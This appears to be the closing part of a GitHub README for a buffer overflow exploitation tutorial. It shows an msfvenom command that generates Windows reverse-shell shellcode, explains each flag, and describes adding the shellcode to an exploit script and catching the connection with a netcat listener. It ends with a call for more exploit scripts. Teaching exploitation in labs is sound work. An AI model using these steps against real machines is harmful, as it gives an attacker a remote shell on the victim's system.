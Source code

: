 ### 2(6) Generating Shellcode
- This is the final step of exploitation, where we will use the Metasploit utility called **Msfvenom** to create a payload. To create a payload type the following command: 
```
msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"
```
The IP Address should be the IP Address of  your Attacking Machine, where we will get back the TCP Connection. 

- <u>Explanation of the Above Code</u>:
	- **msfvenom** is used here to create a payload we use **\-p** switch to define the type of payload we are going to use, here the payload is **windows/shell\_reverse\_tcp,** it will prompt a reverse shell for us. In order to get a reverse shell we need to define **LHOST & LPORT** which is the ip address of attacking machine and port open to listen. **EXITFUNC=thread** is used for stability in payload , **\-f c** sets the file type used, here it is c. **\-a x86** defines the architecture type and **\-b** defines the bad characters present, **"\\x00".**
 ![](assets/payloadcreated.png) here is what our payload looks like.
- Add the Payload generated to the Exploit.py script, and restart the application. Then on your attacking machine start the NetCat Listening on the specific port that you gave in the payload creation step and then run the exploit script. 
	- The Overflow will get executed and you'll get the root access to the Victim's Machine. 

<hr>

## Contribution
Fork this repo, do the required changes and send me a PR. I'll merge your request to the main repository. Here is what you can do:
- Add more Fuzzing Scripts, in different programming languages.
- Add more Exploitation Scripts, in different programming languages.
- Improvise the Documentation (because I'm not very good in it).

Create by : [Sanan Qasimzade](https://www.linkedin.com/in/senan-qasimzade/)
